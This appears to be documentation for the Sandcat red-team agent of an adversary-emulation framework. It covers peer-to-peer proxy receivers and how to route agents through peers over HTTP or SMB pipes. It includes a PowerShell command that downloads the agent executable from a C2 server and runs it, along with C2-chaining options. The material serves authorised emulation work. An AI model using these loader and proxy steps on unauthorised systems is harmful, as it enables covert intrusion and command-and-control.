 ### Command Line Options

#### Quickstart

To enable an agent to be used as a proxy:
  1. Include this header in the download command `-H "gocat-extensions:proxy_http"`
  2. Run that agent with the `-listenP2P` flag

To enable an agent to use the other proxy agents you've established:
  1. Include this header in the download command `-H "gocat-extensions:proxy_http"`
  
  Optional: This header can speed up the proxy finding process: `-H "includeProxyPeers:HTTP"`. It tells the server to include a list of known proxy peers in the executable. Now that sandcat has mDNS functionality to dynamically discover new peers it is no longer required but is still useful to decrease start-up time.


#### Starting Receivers

To start an agent with peer-to-peer proxy receivers, the `-listenP2P` commandline switch must be used (no
parameters taken). When this switch is set, the agent will activate all supported peer-to-peer proxy receivers.

Example powershell commands to start an agent with HTTP and SMB Pipe receivers:
```
$url="http://192.168.137.122:8888/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$wc.Headers.add("gocat-extensions","proxy_http,proxy_smb_pipe"); # Include gocat extensions for the proxy protocols.
$output="C:\Users\Public\sandcat.exe";
$wc.DownloadFile($url,$output);
C:\Users\Public\sandcat.exe -server http://192.168.137.122:8888 -v -listenP2P;
```

#### Manually Connecting to Peers via Command-Line

In cases where operators know ahead of time that a newly spawned agent cannot directly connect to the C2, 
they can use the existing command-line options for 54ndc47 to have the new agent connect to a peer. 
To do so, the `-c2` and `-server` options  are set to the peer-to-peer proxy protocol and address of the 
peer's proxy receiver, respectively.

For example, suppose trusted agent A is running an SMB pipe proxy receiver at pipe path 
`\\WORKSTATION1\pipe\agentpipe`. Instead of compiling a new agent using the HTTP header `includeProxyPeers:All` or 
`includeProxyPeers:SmbPipe` to include the pipe path information in the binary, operators can simply specify
`-c2 SmbPipe` and `-server \\WORKSTATION1\pipe\agentpipe` in the command to run the agent. Note that in this instance,
the appropriate SMB pipe proxy gocat extension will need to be installed when compiling the agent binaries.
